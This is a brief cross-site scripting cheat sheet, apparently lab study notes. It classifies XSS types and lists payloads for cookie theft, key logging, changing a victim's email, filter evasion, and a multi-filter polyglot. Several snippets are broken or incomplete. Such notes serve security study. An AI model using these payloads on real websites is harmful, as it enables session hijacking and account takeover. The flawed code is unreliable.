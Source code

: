 # XSS Cheatsheet
Cross-site scripting is executed in the browser on the client machine.  A simple proof of concept would look like:

## XSS Classifications
| Type | Location |
| ---- | -------- |
| Reflected | URL Paramaters |
| Stored | Database |
| DOM | Unsafe JS variables |
| Blind | Support Tickets / Emails |

Reflected XSS - URL Query parameters
Stored

```js
<script>alert('xss');</script>
```

## Session Stealing
Extract user cookies to be used for a sign in:
```js
<script>document.cookie</script>
```

## Key Logging
Capture user key presses:
```js
<script>
document.onkeypress = functio(e) {
    e.Key
}
<script>
```

## Business Logic
You may be able to access critical functions 
```js
<script>
user.updateEmail('malicious@bad.com');
</script>
```

## Bypass Techniques
Some fiters are trivial to bypass while others involve a deeper understanding of the code to exploit.

### String filters
A website can filter based on string matches such as `script`. In some cases we can evade this filter by duplicating the string.
```js
<sscriptcript>
    alert('xss');
</sscriptcript>
```

## Polygots
An attack that can bypass multiple filters in one go.
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')"'
```
